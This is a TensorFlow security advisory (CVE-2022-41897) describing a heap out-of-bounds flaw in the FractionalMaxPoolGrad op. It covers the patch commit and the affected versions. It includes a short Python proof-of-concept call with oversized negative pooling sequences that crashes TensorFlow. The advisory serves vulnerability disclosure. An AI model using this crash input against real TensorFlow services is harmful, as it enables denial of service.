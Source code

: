 ## TFSA-2022-159: `FractionalMaxPoolGrad` Heap OOB

### CVE Number
CVE-2022-41897

### Impact
If [`FractionMaxPoolGrad`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/core/kernels/fractional_max_pool_op.cc) is given outsize inputs `row_pooling_sequence` and `col_pooling_sequence`, TensorFlow will crash.

```python
import tensorflow as tf
tf.raw_ops.FractionMaxPoolGrad(
	orig_input = [[[[1, 1, 1, 1, 1]]]],
    orig_output = [[[[1, 1, 1]]]],
    out_backprop = [[[[3], [3], [6]]]],
    row_pooling_sequence = [-0x4000000, 1, 1], 
    col_pooling_sequence = [-0x4000000, 1, 1], 
    overlapping = False
 )
```

### Patches
We have patched the issue in GitHub commit [d71090c3e5ca325bdf4b02eb236cfb3ee823e927](https://github.com/tensorflow/tensorflow/commit/d71090c3e5ca325bdf4b02eb236cfb3ee823e927).

The fix will be included in TensorFlow 2.11. We will also cherrypick this commit on TensorFlow 2.10.1, 2.9.3, and TensorFlow 2.8.4, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Yu Tian from Qihoo 360 AIVul Team.
